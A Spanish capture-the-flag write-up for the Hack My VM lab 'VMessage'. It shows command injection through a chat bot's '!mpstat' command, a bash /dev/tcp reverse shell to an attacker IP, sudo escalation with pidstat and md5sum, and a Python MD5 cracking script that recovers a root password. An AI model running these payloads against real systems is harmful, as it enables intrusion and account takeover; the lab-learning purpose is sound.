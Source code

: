 ```yaml
---
layout: post
title: WMessage
date: 2022-12-04
categories: ["HMV", "RCE"]
thumbnail: "assets/images/WMessage.png"
---
```


# VMessage [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.107 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.107 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la web veremos un panel `login` y arriba un botón llamado `Sign Up`, por lo que vamos a registrarnos. Una vez registrados veremos una especie de chat. Un tal `Master` nos dice que con el comando `!mpstat` podemos ver el estado del servidor.

Pensé que por detrás se estaba ejecutando un comando a nivel de sistema, así que tratré de inyectar comandos. Tras varios intentos llegué al `pipe` (`|`). Si ponemos `!mpstat | id` nos devolverá el comando ejecutado.

```
Server: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bien! Podemos ejecutar comandos! Para ganar una Reverse Shell primero me puse en escucha con `NC`, en mi caso por el puerto `4444`:

- `nc -nlvp 4444`

Después de eso me dirigí a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y me copié el comando en `Bash`. Vamos a ver cómo nos queda la inyección:

```
!mpstat | bash -c 'bash -i >& /dev/tcp/192.168.1.103/4444 0>&1'
```

Bien! Ya estamos en la máquina como `www-data`!

### Subida de privilegios #1
Una vez dentro de la máquina ejecuté `sudo -l` para listar todo lo que podía hacer:

```
Matching Defaults entries for www-data on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User www-data may run the following commands on MSG:
    (messagemaster) NOPASSWD: /bin/pidstat
```

Como vemos podemos ejecutar `pidstat` como `messagemaster`. En [`GTFObins`](https://gtfobins.github.io/gtfobins/pidstat/#sudo) nos enseñan a escalar privilegios con dicha herramienta, vamos a ver cómo lo hice yo:

- `sudo -u messagemaster /bin/pidstat -e /bin/bash -i`

Bien! Ya estamos como `messagemaster`!

### Subida de privilegios #2
Ahora nuestro objetivo es obtener `root`, por lo que volvemos a ejecutar `sudo -l` para saber qué podemos hacer en la máquina:

```
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum
```

Vemos que podemos ejecutar `MD5Sum` como cualquier usuario, es decir, podemos ejecutarlo como `root`. Tras mirar en varios sitios no encontré ninguna vulnerabilidad relacionada con dicho binario.

Tras buscar un rato en la máquina llegué a `/var/www`, donde se encontraba un fichero con el nombre `ROOTPASS`. Utilicé `MD5Sum` como `root` para obtener el `hash` y en mi máquina poder romperlo:

- `sudo -u root /bin/md5sum /var/www/ROOTPASS`

```
85c73111b30f9ede8504bb4a4b682f48  /var/www/ROOTPASS
```

Bien! Ya tenemos el `hash`, podemos tratar de romperlo con `John` pero no funcionará. Me creé un `script` en `Python` para que con un diccionario (`rockyou.txt`) vaya línea por línea transformándola en `MD5` y comparándola con el `hash` que tenemos. Vamos a verlo:

```
import hashlib

md5 = "85c73111b30f9ede8504bb4a4b682f48"

with open("/usr/share/wordlists/rockyou.txt", encoding="utf-8", errors="ignore") as wordlist:
	lines = wordlist.readlines()
	for passwd in lines:
		passwd = passwd.replace("\n", "")
		hash = hashlib.md5((passwd.strip() + "\n").encode()).hexdigest()
		if str(hash) == md5:
			print(passwd)
```

Tras iniciarlo y esperar unos segundos vemos que sale en nuestra pantalla la contraseña de `root` (`root:Message5687`)!

Bien! Ya estamos en la máquina como `root`! Qué fácil!
